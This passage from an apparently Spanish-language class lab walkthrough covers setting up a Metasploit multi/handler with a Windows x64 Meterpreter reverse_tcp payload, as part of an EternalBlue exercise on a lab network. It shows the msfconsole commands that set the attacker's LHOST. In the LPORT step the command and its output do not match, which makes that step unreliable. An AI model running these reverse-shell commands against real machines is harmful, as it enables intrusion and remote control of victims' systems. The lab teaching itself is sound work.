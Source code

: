     ![figura](/assets/images/2024-11-03-EP/eternal_blue_1.png)

> Tip adicional: También debes configurar el payload para el reverse shell. Busca en el metasploit un payload (que ya anteriormente hemos usado en clase) para obtener un reverse shell connection.

- Abrir terminal **msfconsole**.
- Módulo **use exploit/multi/handler**.
- Set **set payload windows/x64/meterpreter/reverse_tcp**.
    ```bash
    msf6 > use exploit/multi/handler
    [*] Using configured payload generic/shell_reverse_tcp
    msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
    ```
- Configurar **LHOST**, la IP de la maquina atacante.
    ```bash
    msf6 exploit(multi/handler) > set LHOST 10.0.2.9
    LHOST => 10.0.2.9
    ```
- Configurar **LPORT**.
    ```bash
    msf6 exploit(multi/handler) > set RHOST 10.0.2.4
    LPORT => 4444
    ```
